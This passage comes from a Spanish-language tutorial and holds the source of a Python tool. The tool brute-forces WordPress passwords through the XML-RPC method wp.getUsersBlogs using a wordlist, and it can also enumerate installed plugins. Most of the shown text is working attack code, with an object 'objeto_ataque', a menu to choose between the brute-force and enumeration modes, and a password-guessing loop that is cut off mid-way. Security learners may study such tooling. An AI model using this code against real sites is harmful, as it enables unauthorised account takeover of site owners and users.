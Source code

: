          "elementor",
         "w3-total-cache",
         "updraftplus",
         "wpforms",
         "wpmu-dev-forminator"
     ]
     ```

2. **Instanciación**:
   - Creamos un objeto de la clase `Herramienta`:
     ```python
     objeto_ataque = Herramienta(url_xmlrpc, usuario, diccionario, url_plugins, listado_plugins)
     ```

3. **Interfaz de usuario**:
   - Pedimos al usuario que elija una tarea:
     ```python
     eleccion = input("Escribe un 1 si quieres hacer fuerza bruta, y 2 si quieres enumerar plugins: ")
     ```

4. **Ejecución condicional**:
   - Llamamos al método correspondiente según la elección:
     ```python
     if eleccion == '1':
         objeto_ataque.fuerza_bruta()
     elif eleccion == '2':
         objeto_ataque.enumerar_plugins()
     else:
         print("Datos incorrectos, debes poner un 1 o un 2")
     ```

---

### **Paso 7: Código completo**

Aquí está el código final, integrando todas las correcciones y optimizaciones:

```python
import requests
import sys

class Herramienta:
    def __init__(self, url_xmlrpc, usuario, diccionario, url_plugins, listado_plugins):
        self.url_xmlrpc = url_xmlrpc
        self.usuario = usuario
        self.diccionario = diccionario
        self.url_plugins = url_plugins
        self.listado_plugins = listado_plugins
    
    def fuerza_bruta(self):
        with open(self.diccionario, 'r', encoding='latin-1') as file:
            passwords = file.readlines()
        
        for password in passwords:
            password = password.strip()
            xml_payload = f"""<?xml version="1.0" encoding="UTF-8"?>
            <methodCall>
                <methodName>wp.getUsersBlogs</methodName>
                <params>
                    <param><value>{self.usuario}</value></param>
                    <param><value>{password}</value></param>
                </params>
            </methodCall>"""
            
            print(f"[+] Probamos con la contraseña {password}")
            response = requests.post(self.url_xmlrpc, data=xml_payload)
```